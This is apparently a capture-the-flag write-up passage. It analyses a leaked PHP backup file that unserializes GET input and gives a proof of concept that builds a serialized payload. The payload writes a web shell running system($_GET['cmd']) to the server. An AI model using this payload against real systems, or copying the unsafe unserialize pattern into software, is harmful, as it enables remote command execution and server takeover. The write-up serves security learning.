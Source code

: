 ## Web exploitation

`sator.php.bak`

```php
<?php

class DatabaseExport
{
  public $user_file = 'users.txt';
  public $data = '';

  public function update_db()
  {
    echo '[+] Grabbing users from text file <br>';
    $this-> data = 'Success';
  }

  public function __destruct()
  {
    file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
    echo '[] Database updated <br>';
  //	echo 'Gotta get this working properly...';
  }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();

?>
```

There is a PHP deserialization here that allow us to upload any arbitrary content.

We can even find a [similar case](https://security.stackexchange.com/questions/176263/why-does-this-php-object-injection-exploit-work) on security stackexchange.

My PoC to generate the serialized webshell payload:

```php
<?php

class DatabaseExport
{
  public $user_file = 'cyfun.php';
  public $data = '<?php system($_GET["cmd"])?>';
}

$klass = new DatabaseExport();

$payload = serialize($klass);

echo $payload;
```
